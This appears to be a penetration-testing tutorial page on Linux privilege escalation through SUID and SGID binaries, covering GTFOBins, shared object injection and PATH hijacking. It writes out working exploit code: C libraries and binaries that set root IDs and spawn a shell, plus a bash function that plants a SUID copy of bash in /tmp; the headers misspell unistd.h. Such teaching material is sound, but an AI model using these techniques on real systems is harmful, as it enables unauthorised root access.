# Introduction

The [Set Owner User ID (SUID)](../../../System%20Internals/Linux/File%20System.md#set-owner-user-id-suid) and [Set Group ID (SGID)](../../../System%20Internals/Linux/File%20System.md#set-group-id-sgid) are special permissions which can be attributed to Linux files and folders. Any files which are owned by root and have SUID set will be executed with elevated privileges. Our goal is to hunt down those files and abuse them in order to escalate our privileges. This can be easily done with the following command:

```bash
find / -perm -u=s -type f -user root 2>/dev/null
```

![](res/Images/Abusing%20SUID%20&%20SGID%20Binaries/Finding%20SUID%20Binaries.png)

## Exploiting Misconfigured Common Binaries

You should diligently inspect the list of files returned. Some standard Linux binaries may allow for privilege escalation if they have the SUID bit set for one reason or another. It is useful to go through these binaries and check them on [GTFOBins](https://gtfobins.github.io/).

 In the above example, we find that `/bin/systemctl` has the SUID bit set and that it also has an [entry in GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/#suid):

![](res/Images/Abusing%20SUID%20&%20SGID%20Binaries/Systemctl%20GTFOBins.png)

By following the instructions, although with slight modifications, we can run commands with elevated privileges:

![](res/Images/Abusing%20SUID%20&%20SGID%20Binaries/Systemctl%20Escalated%20Privileges.png)

## Privilege Escalation via Shared Object Injection

Some binaries may be vulnerable to Shared Object (SO) Injection. This typically stems from misconfigurations where the binary looks for a specific library in a specific directory, but can't actually find it. If we have write access to this directory, we can hijack the search for the library by compiling our own malicious library in the place where the original one was supposed to be. This is quite similar to [escalating via LD_PRELOAD](Sudo%20Escalation%20via%20LD_PRELOAD.md), but it is a bit more difficult to find and exploit.

You will first need to identify an SUID binary which has misconfigured shared libraries. A lot of the times the binary will refuse to run, saying that it is missing a particular library, however, this is not always the case:

![](res/Images/Abusing%20SUID%20&%20SGID%20Binaries/suid-so%20Run.png)

It is always good practice to run the programme with `strace`, which will print any attempts of the binary to access libraries:

```bash
strace <binary> 2>&1 | grep -iE "open|access"
```

![](res/Images/Abusing%20SUID%20&%20SGID%20Binaries/strace%20Library%20Misconfigurations.png)

What stands out in particular is the `/home/user/.config/libcalc.so` library, since `/home/user/.config/` may be a writable directory. It turns out that the directory doesn't even exist, however, we can write to `/home/user/` which means that we can create it.

What now remains is to compile a malicious library into `libcalc.so`.

```cpp
#include <uinstd.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject()
{
	setuid(0);
	setgid(0);
	system("/bin/bash -i");
}
```

For older versions of GCC, you may need to use the `_init()` function syntax:

```cpp
#include <uinstd.h>
#include <stdlib.h>

void _init()
{
	setuid(0);
	setgid(0);
	system("/bin/bash -i");
}
```

Compile the malicious library:
```bash
gcc -shared -fPIC -o libcalc.so libcalc.c # add -nostartfiles if using _init()
```

![](res/Images/Abusing%20SUID%20&%20SGID%20Binaries/Shared%20Object%20Injection%20Successful.png)

## Privilege Escalation via Path Hijacking

Path Hijacking refers to the deliberate manipulation of environmental variables, most commonly `\$PATH`, such that the invocations of programmes in a binary actually refer to malicious binaries and not the intended ones.

This vector requires more sophisticated digging into the internals of an SUID binary, specifically tracking down the different invocations the binary performs. This can commonly be achieved by running `strings` on the binary, but you will probably have to resort to more serious reverse engineering, as well. Specifically, you want to be on the lookout for shell commands which get executed by the SUID binary.

### Hijacking Relative Paths

Relative paths are comparably easy to hijack - they require little other than editing the `\$PATH` variable. Once you have identified a shell command within an SUID binary which invokes another programme via a relative path, you can just prepend to the `\$PATH` a directory which will contain an executable with the same name as the one originally invoked.

![](res/Images/Abusing%20SUID%20&%20SGID%20Binaries/Start%20Apache%20Relative%20Path.png)

Let's compile our own malicious binary. 

```cpp
#include <uinstd.h>
#include <stdlib.h>

int main()
{
	setuid(0);
	setgid(0);
	system("/bin/bash -i");

	return 0;
}
```

```bash
gcc -o /tmp/service /tmp/service.c
```

Afterwards, we need to prepend `/tmp` to the `\$PATH` variable:
```bash
export PATH=/tmp:\$PATH
```

And finally, run the original SUID binary:

![](res/Images/Abusing%20SUID%20&%20SGID%20Binaries/Hijacked%20Relative%20Path.png)

### Hijacking Absolute Paths

Absolute paths require a bit more work to be hijacked. 

![](res/Images/Abusing%20SUID%20&%20SGID%20Binaries/Start%20Apache%20Absolute%20Path.png)

Luckily, bash turns out to be very sophisticated and allows for the creation of functions which have the forward slash (`/`) character in their name. This means that we can create a malicious bash function with the same name as the absolute path we want to hijack and then our function will be invoked in lieu of the original programme.

First, create the bash function:

```bash
function <absolute path here>() { cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p; }
```

Next, export the function:

```bash
export -f <absolute path here>
```

Finally, run the original SUID binary:

![](res/Images/Abusing%20SUID%20&%20SGID%20Binaries/Hijacked%20Absolute%20Path.png)